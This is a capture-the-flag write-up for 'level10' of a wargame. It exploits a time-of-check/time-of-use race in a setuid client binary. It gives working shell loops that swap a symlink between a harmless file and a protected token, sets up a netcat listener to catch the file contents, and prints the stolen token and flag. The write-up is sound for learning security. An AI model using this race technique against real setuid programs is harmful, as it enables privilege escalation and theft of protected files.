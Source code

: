 # level10

- level10 is a client that read the file and send it if we have acces to it

- The binary is executed as the owner of the file but check who really run it to know if we have acces to the file
    > $ ./level10 ./token 0
    > You don't have access to ./token

- We can exploit the time between the check of the right and the opening of the
    file by creating a symlink to a file we have the right to read and switching
    rapidly beetween the file and the token
    ```sh
    $ touch /tmp/file
    $ while true; do
        ln -fs /home/user/level10/token /tmp/token
        ln -fs /tmp/tmp /tmp/token
      done
    ```

- Then we create our server and listen infinitly to the level10 port (6969)
    ```sh
    $ nc -k -l 0 6969
    ```

- The we start the `./level10` infinitly
    ```sh
    $ while true; do
        ./level10 /tmp/token 0
      done
    [...]
    .*( )*.
    woupa2yuojeeaaed06riuj63c
    .*( )*.
    [...]
    ```

- `$ su flag10` && `$ getflag`
    > Check flag.Here is your token : feulo4b72j7edeahuete3no7c

